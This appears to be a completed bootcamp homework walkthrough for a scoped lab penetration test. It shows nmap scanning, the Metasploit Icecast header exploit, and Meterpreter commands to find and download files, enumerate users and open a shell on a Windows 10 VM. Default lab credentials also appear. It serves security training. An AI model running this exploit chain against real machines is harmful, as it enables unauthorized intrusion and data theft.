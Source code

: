 ## Activity: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20

       
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: **_search icecast_**

     ![searchsploit](images/searchiceploit.jpg)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: **_msfconsole_**
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: **_use exploit/windows/http/icecast_header_**

     ![#4](images/#4.jpg)
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: **_use 0_**
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: **_set RHOSTS 192.168.0.20_**
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: **_exploit_**

     ![#6](#6.jpg)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: **_search -f *secretfile*.txt_**

     ![#6-2](images/#6-2.jpg)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: **_search -f *recipe*.txt_**
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: **_download /users/ieuser/documents/Drinks.recipe.txt_**

      ![#7](images/#7.jpg)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

**_run post/multi/recon/local_exploit_suggester_**

![#8](images/#8.jpg)
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: **_run post/windows/gather/enum_logged_on_users_**

  ![A](images/A.jpg)
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: **_shell_**

  ![B](images/B.jpg)
 
C. Run the command that displays the target's computer system information:

   > Answer: **_systeminfo_**

   ![C](images/C.jpg)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
